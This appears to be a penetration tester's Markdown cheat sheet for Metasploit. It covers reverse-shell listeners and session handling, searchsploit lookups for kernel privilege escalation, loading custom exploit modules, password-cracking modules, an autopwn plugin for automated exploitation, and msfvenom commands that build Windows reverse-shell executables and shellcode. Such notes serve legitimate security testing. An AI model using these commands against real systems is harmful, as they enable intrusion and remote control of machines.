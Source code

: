 # msfconsole

                                       ___          ____
                                   ,-""   `.      < HONK >
                                 ,'  _   e )`-._ /  ----
                                /  ,' `-._<.===-'
                               /  /
                              /  ;
                  _          /   ;
     (`._    _.-"" ""--..__,'    |
     <_  `-""                     \
      <`-                          :
       (__   <__.                  ;
         `-.   '-.__.      _.'    /
            \      `-.__,-'    _,'
             `._    ,    /__,-'
                ""._\__,'< <____
                     | |  `----.`.
                     | |        \ `.
                     ; |___      \-``
                     \   --<
                      `.`.<
                        `-'

## create reverse listener

> helps to deal with latency

    use multi/handler
    set lport 6666
    exploit -j
    jobs

once pwn / connected:

    sessions -l
    sessions -i <id>

    # upgrade shell to meterpreter
    sessions -u <session_id>

    # kill all jobs
    jobs -k

## manual exploits using exploitdb

One may need to adapt something from the wild or simply use more than msf community has to offer:

    searchsploit privilege | grep -i linux | grep -i kernel | grep 3.13
    searchsploit <keyword1> <keyword2>

    # get full path (/usr/share/exploitdb/)
    searchsploit -p 33824
    locate linux/local/33824.c

## add custom exploit

**They have to be under exploits/ to be picked up:**

    /root/.msf4/modules/
    └── exploits
        └── myfolder
            └── myexploit.rb

Then, restart msfconsole & reload modules:

    msf6 > reload_all
    [*] Reloading modules from all module paths...

You can debug by looking at the logs:

    tail -n 100 /root/.msf4/logs/framework.log

## msf db missing role

    msf5 > db_connect msfdb init
    [-] Error while running command db_connect: Failed to connect to the Postgres data service: FATAL:  role "<user>" does not exist

    sudo -u postgres createuser -s $(whoami); createdb $(whoami)

## missing gems

    $ sudo msfconsole
    Unable to find a spec satisfying metasploit-framework (>= 0) in the set. Perhaps the lockfile is corrupted?                                               Run `bundle install` to install missing gems.

    $ cd /usr/share/metasploit-frame
    $ sudo gem install bundler
    $ sudo bundle install
    $ sudo gem update --system

## passwords

    msf6 > search auxiliary/analyze

    Matching Modules
    ================

       #  Name                                      Disclosure Date  Rank    Check  Description
       -  ----                                      ---------------  ----    -----  -----------
       0  auxiliary/analyze/apply_pot                                normal  No     Apply Pot File To Hashes
       1  auxiliary/analyze/crack_aix                                normal  No     Password Cracker: AIX
       2  auxiliary/analyze/crack_databases                          normal  No     Password Cracker: Databases
       3  auxiliary/analyze/crack_linux                              normal  No     Password Cracker: Linux
       4  auxiliary/analyze/crack_mobile                             normal  No     Password Cracker: Mobile
       5  auxiliary/analyze/crack_osx                                normal  No     Password Cracker: OSX
       6  auxiliary/analyze/crack_webapps                            normal  No     Password Cracker: Webapps
       7  auxiliary/analyze/crack_windows                            normal  No     Password Cracker: Windows
       8  auxiliary/analyze/modbus_zip                               normal  No     Extract zip from Modbus communication
       9  auxiliary/scanner/oracle/oracle_hashdump                   normal  No     Oracle Password Hashdump

## automation

### autopwn

    wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
    cp db_autopwn.rb /root/.msf4/plugins
    msfconsole
    load db_autopwn
    # show all matching exploit modules
    db_autopwn -t <target-ip>
    db_autopwn -p -R great -e -q <target-ip>

# msfvenom

> metasploit standalone payload generator

**If you test the reverse shell with ```nc.exe -v -l -p 6666``` make sure it's not staged.**

    # generate the reverse shell for windows as an exe
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f exe > shellcode.exe

    # generate the reverse shell for windows as a raw payload to reuse in memory or elsewhere
    msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=6666 -f raw > shellcode.raw
